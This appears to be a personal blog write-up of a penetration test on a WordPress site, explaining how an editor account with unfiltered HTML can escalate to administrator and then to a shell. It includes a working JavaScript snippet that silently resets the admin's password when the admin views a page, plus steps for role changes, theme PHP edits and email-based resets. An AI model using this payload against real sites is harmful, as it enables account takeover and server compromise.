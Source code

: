 ```yaml
---
layout: post
title: "Wordpress [Bugs/Hacks/Tweaks/Tricks]? I am not sure"
categories: Hacks
tags: tricks hacks
image: https://s.w.org/about/images/fanart/logo_500x500.png
---
```


The following is a writeup of a penetration test which will serve me as a remainder :P. I was up against a wordpress
installation in one of my tests and luckily I already had **editor** level credentials. So I have to somehow obtain a
shell. Remember that editor's do not have the ability to edit/add themes/plugins.

Observing the facts :
+ I can add html in the site (i.e unfiltered_html capability for editors).
+ Nothing more valuable than the above point.

Methods which will not work :
+ Cannot steal cookies of administrator, since **httponly** flag is set on cookies.
+ No dumb popups asking for password because that might create suspicion.

I was unable to find anything on google. So I started poking around a **local wordpress installation** to find ways to
run php i.e escalate privileges and I came across multiple ways to do this. By using some js-fu we can do the
following things and get admin privileges

+ Resetting **admin** password. Enter the following snippet anywhere in the site to reset admin password.

```[javascript]
var siteUrl = 'http://wordpress.org' // Wordpress site url

$(document).ready(function() {
	$.get(siteUrl+"/wp-admin/profile.php?wp_http_referer=%2Fwp-admin%2Fusers.php", function(data) {
		var html = $(data);
		var form = html.find('form');
		form.find('#pass1')[0].value = 't3st'; // New password
		form.find('#pass2')[0].value = 't3st'; // Confirm password
		form.find('#submit')[0].click();
		});
	});
```

+ User roles can be changed by admin in the interface, so the editor account can be made admin using that feature.
+ Admin can write php directly to themes and plugins, so something like [this](https://nealpoole.com/blog/2011/01/how-does-cross-site-scripting-become-arbitrary-code-execution-an-ode-to-the-oft-maligned-referer-header/) can be done.
+ Email address of the admin can also be changed instead of password, then password reset and boom.

Off all the above, I used the third one to write some file of the theme and I got a sweet **shell**. So the crisp of the writeup is

**Even though wordpress doesn't allow editors to write php directly, we can do it in an indirect manner**

I thought this was a bug and reported this information to wordpress guys & they closed the issue as **Won't Fix**,
which is a good news for us, since **editor** accounts are bit easy to obtain :P. I think some level of mitigation for
this can be obtained if wordpress prompts the admin for password for sensitive actions like the above mentioned
